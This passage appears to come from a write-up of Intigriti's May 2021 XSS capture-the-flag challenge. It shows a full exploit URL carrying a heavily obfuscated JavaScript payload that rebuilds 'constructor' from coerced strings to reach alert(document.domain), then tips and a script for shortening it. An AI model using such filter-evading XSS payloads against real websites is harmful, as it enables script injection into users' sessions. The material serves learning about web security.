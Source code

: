 The URL is:

```
https://challenge-0521.intigriti.io/captcha.php?c=[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]`_${`e`%2b31[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`${0/0}`[1]%2b`${e}`[21]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b`${e}`[21]%2b`${``%2b{}}`[1]%2b`${``%2b{}}`[5]%2b`${0/0}`[1]%2b`${``%2b{}}`[6]%2b`${``[0]}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`.`%2b17[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`${0/0}`[1]%2b`${e}`[18]%2b17[`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${``[`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[9]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[5]%2b`${``[0]}`[1]%2b`${e}`[15]]`36`%2b`.`%2b`${e}`[18]%2b`${e}`[21]%2b`${``[0]}`[5]%2b`${``%2b{}}`[5]%2b`e`%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[14]%2b1%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]%2b`${[][`${``%2b{}}`[5]%2b`${``%2b{}}`[1]%2b`${``[0]}`[1]%2b`${e}`[18]%2b`${``%2b{}}`[6]%2b`${e}`[13]%2b`${``[0]}`[0]%2b`${``%2b{}}`[5]%2b`${``%2b{}}`[6]%2b`${``%2b{}}`[1]%2b`${e}`[13]]}`[15]}``+`#alert(document.domain)
```

## Challenge for the Shortest Code

After being able to execute any code, what else can we do? That's to challenge for the shortest code! Try to make the code as short as possible.

Here are some tips:

1. Instead of using `` ` ` `[0]` `` to get undefined, use `e[0]` to save one character.
2. ``+{} `` to get `[object Object]` is unnecessary. Use `{}` instead to save three characters.
3. Use `e` as much as possible because it makes the code shorter.

We originally used `[]['constructor']` to get the function, but it's too long. We can use a more scientific way to find the shortest:

``` js
let min = 99
let winner = ''
for (let prop of Object.getOwnPropertyNames(Array.prototype)) {
  const len = getString(prop).length
  if (len < min) {
    min = len
    winner = prop
  }
}
console.log(winner, min)
```
